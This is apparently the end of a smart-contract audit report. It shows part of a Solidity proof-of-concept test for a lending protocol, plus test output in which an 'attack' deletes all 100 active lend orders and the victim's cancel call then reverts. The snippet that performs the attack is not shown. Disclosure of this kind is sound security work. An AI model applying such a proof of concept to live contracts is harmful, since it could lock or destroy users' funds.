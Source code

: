 ```solidity

        ratio[0] = 1e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        // user create lend order 
        lastUserLendOrder = DLOFactoryContract.createLendOrder(
            true, 
            oraclesActivated, 
            true, 
            ltvs, 
            1000, 
            8640000, 
            86400,
            acceptedPrinciples,
            AERO,
            oraclesPrinciples, 
            ratio, 
            address(0x0), 
            5e18 
        );
        
    }
}
```

Output:

```solidity
  ---------user creates hundred lend orders--------
  Length of all active lend orders before the attack: 100
  First active lend order with index 0 before the attack: 0x45C92C2Cd0dF7B2d705EF12CfF77Cb0Bc557Ed22
  Last active lend order with index 99 before the attack: 0x587Fa1b6C0c1389Ea2929aB2270F8D616C0d5916
  
  -------------------attack------------------------
  Length of all active lend orders after the attack: 0
  First active lend order with index 0 after the attack: 0x0000000000000000000000000000000000000000
  Last active lend order with index 99 after the attack: 0x0000000000000000000000000000000000000000
  
  ----------user try to withdraw funds-------------
  Cancel offer function on user lend order reverts with panic: arithmetic underflow or overflow (0x11) error
```

As we can see form the output that the attacker successfully delete all active lend orders from the mapping and reduced the length to zero.

### Tool Used
